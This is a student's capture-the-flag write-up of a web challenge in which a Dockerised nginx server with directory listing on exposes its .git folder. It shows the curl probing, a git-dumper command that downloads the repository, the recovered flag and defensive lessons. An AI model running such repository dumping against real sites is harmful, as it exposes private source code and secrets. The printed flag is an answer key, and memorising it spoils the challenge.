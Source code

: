 

Name : Wai Han
Challenge One

---


# Exploration

* Assets inside the repo
    * Dockerfile, docker-compose.yml, nginx.conf.
    * html.tgz -> unpacked into /var/www in container.

* Maps port 8081:8080
* Adds html.tgz to /var/www
* Copies custom nginx.conf
* Serves from /var/www/html (root directory)
* Listens on port 8080
* Has autoindex enabled **
* Custom logging format with timing info

** indicates the initial guess for an opportunity to find the flag.

---

## Understanding `nginx.conf`

`nginx.conf` is the main configuration file for Nginx, a high-performance web server and reverse proxy. It controls how Nginx behaves.

```nginx
# Example File
user  nginx;
worker_processes  auto;

# Logging
error_log  /var/log/nginx/error.log warn;
pid        /var/run/nginx.pid;

# Events block
events {
    worker_connections 1024;
}

# HTTP block
http {
    include       mime.types;
    default_type  application/octet-stream;

    sendfile        on;
    keepalive_timeout  65;

    # Server block
    server {
        listen       80;
        server_name  example.com;

        location / {
            root   /usr/share/nginx/html;
            index  index.html index.htm;
        }
    }
}
```

---

## What's html.tgz file?

It's a compressed archive (tar + gzip) containing a directory of HTML files (and possibly CSS, JS, etc.).

In our case:
```css
html/
  index.html
  img/
```

So, essentially, this is a compressed file of a website.

---

## Initial Understanding

- This is a custom Nginx container (default is overriden by `nginx.conf` file).
- Serves content from a directory that was archived into `html.tgz`?
- My guess is that there might be something wrong / vulnerable in the `nginx.conf` file since it is a configuration file that sets the nginx server. 
- I asked GPT4.0 to analyze the `nginx.conf` file and `autoindex on` seems to be the major issue.
    *  `autoindex on`; — Directory Listing Enabled
    * What it does: Automatically generates and displays an index of files in a directory if no index file is present.
    * Why it’s risky: Exposes sensitive files or directory structure (e.g., .env, config.yaml, backups).

--- 

## Action Plan 

1. Run the Docker Container                             (OK)
2. Access the web service on port 8081                  (OK)
3. Check for directory listings (autoindex)             (Just get index.html; com.png gives 403).
4. Examine container contents                           (OK; go to container bash and find the files for a potential flag)
5. Look for hidden files/directories                    (OK)
6. Check logs for sensitive data                        (OK)
7. Check for common CTF hiding spots                    (OK)
8. Check for exposed .git/ → dump repo history          (Solution Found)
    Find flag across commits / hidden files

<small>"OK" here just means that I did it but didn't end up being very useful in the final exploit (at least not directly).</small>

---

## Trying to find Solution

1. curl http://localhost:8081/ just gives index.html file. Couldn't find the flag here.
2. curl http://localhost:8081/img/ returns
```
<html>
<head><title>Index of /img/</title></head>
<body>
<h1>Index of /img/</h1><hr><pre><a href="../">../</a>
<a href="com.png">com.png</a>                                            21-Oct-2022 05:17               27052
<a href="door.png">door.png</a>                                           21-Oct-2022 13:36               75852
</pre><hr></body>
</html>
```

3. `com.png` file is never used in the `index.html` file. It's suspicious and the solution might be in there. When I try `curl http://localhost:8081/img/com.png`, I get 403 Forbidden.

4. Try using exiftool in case there's a flag in the metadata.

```
ExifTool Version Number         : 13.30
File Name                       : com.png
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2022:10:20 22:17:34-07:00
File Access Date/Time           : 2025:06:26 16:08:37-07:00
File Inode Change Date/Time     : 2025:06:26 15:31:16-07:00
File Permissions                : -rw-------
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1920
Image Height                    : 1080
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 2834
Pixels Per Unit Y               : 2834
Pixel Units                     : meters
Image Size                      : 1920x1080
Megapixels                      : 2.1
```

5. Also notice that .git is exposed 

6. Download the repo: `git-dumper http://localhost:8081/.git/ dumped_repo/`. 

7. `com.png` is again not in the git repo. Manually placed after? 

8. Ok. Goes through the previous commits of the .git that I just downloaded. Finally found the flag! `git show $(cat .git/ORIG_HEAD)`.

```
commit 4ba53800ea4f1f8e433e16c5c37a2be52a961838
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:47:51 2022 +0800

    What is this?

diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..54c849b
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1 @@
+hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
diff --git a/index.html b/index.html
deleted file mode 100644
index 98fa7c2..0000000
--- a/index.html
+++ /dev/null
```


## Takeaway

Revise: The exposed `.git` led us to recover the entire repository history and find the flag in a previous commit.

Lesson: The `com.png` with 403 permission was probably a red herring and I got distracted. I should have checked the git logs first.

## Flag

```
+hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
```

## Lessons Learned

* Remove `.git` folder from the container image
* `autoindex off`
* Don't commit secrets to git. Use `.env`, `.gitignore`
